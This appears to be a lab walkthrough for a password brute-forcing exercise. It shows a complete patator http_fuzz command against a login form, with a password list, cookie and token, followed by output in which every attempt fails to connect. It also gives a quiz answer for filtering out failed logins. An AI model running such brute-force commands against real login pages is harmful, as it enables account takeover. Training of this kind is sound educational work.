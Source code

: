 <p>When you run this script, you might notice something - When it stops, it's not easy to tell which password is actually the correct one. We can filter out all the wrong passwords using the -x ignore: action. The syntax and format are basically the same as the quit action. So all you need to do is test and adjust... I've even made the correct command the answer to Question 1. So if you get that right, you know you're good to go. If you get stuck, think about what text is in the response if the result was incorrect. We can ignore those responses and not print them to the screen.<br>

Add the -x ignore: action to the end of your existing patator command (right after the quit action), and the only result you'll get will be the admin password!</p>

<p><em>Answer the questions below</em></p>

<p>5.1. What action can we use to show only the correct password (the answer includes '  ')?<br>
<code>-x ignore:fgrep='Location: login.php'</code></p>

```bash
:~/BruteForceHeroes# patator http_fuzz method=POST --threads=64 timeout=10 url="http://10.201.76.76/login.php" 0=/root/BruteForceHeroes/passwords.txt body="username=admin&password=FILE0&Login=Login&user_token=70d5a777a1d13f532d6edbba6c3c4071/login.php" header="Cookie: PHPSESSID=69dr414b9i2kvao0mk74drkb3r; security=impossible" -x ignore:fgrep='Location:login.php'
...
23:35:53 patator    FAIL - xxx  89:-1         27.675 | 123456                             |     1 | <class 'pycurl.error'> (7, 'Failed to connect to 10.201.76.76 port 80: No route to host')
23:35:53 patator    FAIL - xxx  89:-1         27.784 | 123456789                          |     3 | <class 'pycurl.error'> (7, 'Failed to connect to 10.201.76.76 port 80: No route to host')
23:35:53 patator    FAIL - xxx  89:-1         27.777 | password                           |     4 | <class 'pycurl.error'> (7, 'Failed to connect to 10.201.76.76 port 80: No route to host')
23:35:53 patator    FAIL - xxx  89:-1         27.755 | iloveyou                           |     5 | <class 'pycurl.error'> (7, 'Failed to connect to 10.201.76.76 port 80: No route to host')
23:35:53 patator    FAIL - xxx  89:-1         27.734 | rockyou                            |     8 | <class 'pycurl.error'> (7, 'Failed to connect to 10.201.76.76 port 80: No route to host')
23:35:53 patator    FAIL - xxx  89:-1         27.681 | 12345678                           |     9 | <class 'pycurl.error'> (7, 'Failed to connect to 10.201.76.76 port 80: No route to host')
23:35:53 patator    FAIL - xxx  89:-1         27.737 | abc123                             |    10 | <class 'pycurl.error'> (7, 'Failed to connect to 10.201.76.76 port 80: No route to host')
23:35:53 patator    FAIL - xxx  89:-1         27.696 | nicole                             |    11 | <class 'pycurl.error'> (7, 'Failed to connect to 10.201.76.76 port 80: No route to host')
23:35:53 patator    FAIL - xxx  89:-1         27.631 | monkey                             |    14 | <class 'pycurl.error'> (7, 'Failed to connect to 10.201.76.76 port 80: No route to host')
23:35:53 patator    FAIL - xxx  89:-1         27.668 | lovely                             |    15 | <class 'pycurl.error'> (7, 'Failed to connect to 10.201.76.76 port 80: No route to host')
23:35:53 patator    FAIL - xxx  89:-1         27.681 | jessica                            |    16 | <class 'pycurl.error'> (7, 'Failed to connect to 10.201.76.76 port 80: No route to host')
23:35:53 patator    FAIL - xxx  89:-1         27.678 | 654321                             |    17 | <class 'pycurl.error'> (7, 'Failed to connect to 10.201.76.76 port 80: No route to host')
23:35:53 patator    FAIL - xxx  89:-1         27.664 | michael                            |    18 | <class 'pycurl.error'> (7, 'Failed to connect to 10.201.76.76 port 80: No route to host')
23:35:53 patator    FAIL - xxx  89:-1         27.668 | ashley                             |    19 | <class 'pycurl.error'> (7, 'Failed to connect to 10.201.76.76 port 80: No route to host')
23:35:53 patator    FAIL - xxx  89:-1         27.769 | qwerty                             |    20 | <class 'pycurl.error'> (7, 'Failed to connect to 10.201.76.76 port 80: No route to host')
23:35:53 patator    FAIL - xxx  89:-1         27.768 | 111111                             |    21 | <class 'pycurl.error'> (7, 'Failed to connect to 10.201.76.76 port 80: No route to host')
23:35:53 patator    FAIL - xxx  89:-1         27.759 | 000000                             |    23 | <class 'pycurl.error'> (7, 'Failed to connect to 10.201.76.76 port 80: No route to host')
23:35:53 patator    FAIL - xxx  89:-1         27.755 | michelle                           |    24 | <class 'pycurl.error'> (7, 'Failed to connect to 10.201.76.76 port 80: No route to host')
23:35:53 patator    FAIL - xxx  89:-1         27.731 | tigger                             |    25 | <class 'pycurl.error'> (7, 'Failed to connect to 10.201.76.76 port 80: No route to host')
23:35:53 patator    FAIL - xxx  89:-1         27.742 | sunshine                           |    26 | <class 'pycurl.error'> (7, 'Failed to connect to 10.201.76.76 port 80: No route to host')
23:35:53 patator    FAIL - xxx  89:-1         27.724 | chocolate                          |    27 | <class 'pycurl.error'> (7, 'Failed to connect to 10.201.76.76 port 80: No route to host')
23:35:53 patator    FAIL - xxx  89:-1         27.711 | password1                          |    28 | <class 'pycurl.error'> (7, 'Failed to connect to 10.201.76.76 port 80: No route to host')
```